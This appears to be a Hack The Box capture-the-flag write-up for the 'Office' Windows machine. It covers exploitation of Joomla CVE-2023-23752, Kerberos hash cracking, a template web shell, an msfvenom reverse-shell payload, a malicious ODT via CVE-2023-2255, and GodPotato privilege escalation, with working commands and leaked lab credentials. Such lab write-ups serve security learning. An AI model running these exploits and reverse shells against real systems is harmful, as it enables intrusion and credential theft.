<h1 align="center"> Office </h1>

<p align="center">
    <a href="https://app.hackthebox.com/machines/588">
        
    </a>
</p>

## Table of Contents

1. [Service Enumeration](#1-recon)
2. [Service analysis on TCP/80](#2-tcp---80)
    1. [CVE-2023-40931](#21-cve-2023-23752)
3. [Kerberos Analysis](#3-kerberos-analysis)
4. [Privilege Escalation](#4-user-to-root)
    1. [CVE-2023-2255](#41-cve-2023-2255)
    2. [Unintended - UDF](#42-unintended---udf)
5. [Pwned Info](#pwned-info)

## 1. Recon

```bash
└─$ nmap -sC -sV -oA nmap/initial 10.129.228.200
Nmap scan report for 10.129.228.200
Host is up (0.067s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
|_http-generator: Joomla! - Open Source Content Management
|_http-title: Home
| http-robots.txt: 16 disallowed entries (15 shown)
| /joomla/administrator/ /administrator/ /api/ /bin/ 
| /cache/ /cli/ /components/ /includes/ /installation/ 
|_/language/ /layouts/ /libraries/ /logs/ /modules/ /plugins/
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-21 06:09:28Z)
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.office.htb
| Not valid before: 2023-05-10T12:36:58
|_Not valid after:  2024-05-09T12:36:58
|_ssl-date: TLS randomness does not represent time
443/tcp  open  ssl/http      Apache httpd 2.4.56 (OpenSSL/1.1.1t PHP/8.0.28)
|_http-title: 403 Forbidden
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.office.htb
| Not valid before: 2023-05-10T12:36:58
|_Not valid after:  2024-05-09T12:36:58
|_ssl-date: TLS randomness does not represent time
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.office.htb
| Not valid before: 2023-05-10T12:36:58
|_Not valid after:  2024-05-09T12:36:58
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.office.htb
| Not valid before: 2023-05-10T12:36:58
|_Not valid after:  2024-05-09T12:36:58
|_ssl-date: TLS randomness does not represent time
Service Info: Hosts: DC, www.example.com; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-02-21T06:10:12
|_  start_date: N/A
|_clock-skew: 8h00m02s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Feb 20 23:10:49 2024 -- 1 IP address (1 host up) scanned in 94.34 seconds
```

## 2. TCP - 80

After adding *office.htb* in */etc/hosts*, we visit the homepage on port 80.

<p align="center">
  
</p>

In the meantime I searched for other endpoints via the command

`dirsearch.py -u http://office.htb/ --exclude-status 403,404,400,401,503`

finding */administrator*.

<p align="center">
  
</p>

Visiting *http://office.htb/administrator/manifests/files/joomla.xml* we can have the version.

<p align="center">
  
</p>

### 2.1 CVE-2023-23752

While searching for an exploit for that version of Joomla, I found [CVE-2023-23752](https://nvd.nist.gov/vuln/detail/CVE-2023-23752) which discusses Improper Access Check. For that CVE I found a [repository](https://github.com/K3ysTr0K3R/CVE-2023-23752-EXPLOIT) that provides a script to automate the process.

```bash
┏┓┓┏┏┓  ┏┓┏┓┏┓┏┓  ┏┓┏┓━┓┏━┏┓
┃ ┃┃┣ ━━┏┛┃┫┏┛ ┫━━┏┛ ┫ ┃┗┓┏┛
┗┛┗┛┗┛  ┗━┗┛┗━┗┛  ┗━┗┛ ╹┗┛┗━
Coded By: K3ysTr0K3R --> Hug me ʕっ•ᴥ•ʔっ

[*] Checking if target is vulnerable
[+] Target is vulnerable
[*] Launching exploit against: http://10.129.105.196
---------------------------------------------------------------------------------------------------------------
[*] Checking if target is vulnerable for usernames at path: /api/index.php/v1/users?public=true
[+] Target is vulnerable for usernames
[+] Gathering username(s) for: http://10.129.105.196
[+] Username: Administrator
---------------------------------------------------------------------------------------------------------------
[*] Checking if target is vulnerable for passwords at path: 
/api/index.php/v1/config/application?public=true
[+] Target is vulnerable for passwords
[+] Gathering password(s) for: http://10.129.105.196
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
[+] Password: H0lOgrams4reTakIng0Ver754!
[~] No passwords found
[~] No passwords found
[~] No passwords found
[~] No passwords found
```

Even though we have obtained a password, it does not allow us to access Joomla.

## 3. Kerberos analysis

`kerbrute userenum --dc dc.office.htb -d office.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt`

```text
administrator
Administrator
ewhite
etower
dwolfe
dlanor
dmichael
hhogan
DWOLFE
```

With the users found, we look for the one who, with the password found previously, gives us the possibility of having some information.

<p align="center">
  
</p>

Let's understand what the *SOC Analysis* folder contains via [smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html).

<p align="center">
  
</p>

Let's download the pcap and analyze it.

<p align="center">
  
</p>

In pcap, we note the presence of packets of Kerberos protocol. Analyzing the content we notice the presence of a hash type in the cipher.

<p align="center">
  
</p>

While looking for ways to crack the hash I found an [article](https://vbscrub.com/2020/02/27/getting-passwords-from-kerberos-pre-authentication-packets/) that explains how to build the crackable hash with hashcat, obtaining the following hash:

`$krb5pa$18$tstark$OFFICE.HTB$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc`

<p align="center">
  
</p>

The password is `playboy69` and I tried to use to log in to the Joomla CMS with `administrator` like username and I get the login.

<p align="center">
  
</p>

After a while I found the Templates page.

<p align="center">
  
</p>

Opening the template we have access to each file.

<p align="center">
  
</p>

I then modified the index.html by inserting a shell and after that, visiting the *index.html* page, I have the shell.

<p align="center">
  
</p>

I don't have the ability to access the flag so I do lateral movement via [RunasCS](https://github.com/antonioCoco/RunasCs).

<p align="center">
  
</p>

In *C:\Users\tstark\Desktop* there is the user flag.

## 4. User to ROOT

To have better management of the shell, I used the [metasploit](https://www.metasploit.com/) framework first using msfvenom to create the exe 

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=1234 -f exe -o shell.exe`

and then msfconsole. Seeing the active services via netstat, we notice a service on port 8083 so we portforward through the command `portfwd add -l 8083 -p 8083 -r 10.129.228.200`.

<p align="center">
  
</p>

We can analyze the *Submit Application* page.

<p align="center">
  
</p>

Trying to upload any file we notice that it only accepts certain types of extensions.

<p align="center">
  
</p>

### 4.1 CVE-2023-2255

After some research I found [CVE-2023-2255](https://nvd.nist.gov/vuln/detail/CVE-2023-2255) which allows us to perform an RCE. So I found a [repository](https://github.com/elweth-sec/CVE-2023-2255) that provides a script to automate the process.

With the following command you create an odt file which, once opened by the server, will execute the command setted: 

`python CVE-2023-2255.py --cmd 'C:\Users\Public\Downloads\shell2.exe' --output 'exploit.odt'`

After loading it, after a while we receive the shell.

<p align="center">
  
</p>

### 4.2 Unintended - UDF

After create the folder */lib/plugin* in mysql path, using the `exploit/multi/mysql/mysql_udf_payload` in Metasploit to forward the target’s 3306 port to the local machine, we can have a lateral movement to *web_account*.

<p align="center">
  
</p>

Once we have the shell, we see the permissions the user has.

```powershell
C:\xampp\mysql\data>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Very interesting is the *SeImpersonatePrivilege* and while searching I found an article [HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens) which deals with an attack called [GodPotato](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer) and provides a repository where the exe that automates the attack.

By executing the following command we will have the flag:

`GodPotato.exe -cmd "cmd /c type C:\Users\Administrator\Desktop\root.txt"`

## Pwned Info

<p align="center">
    <a href="https://www.hackthebox.com/achievement/machine/805273/588">
        
    </a>
</p>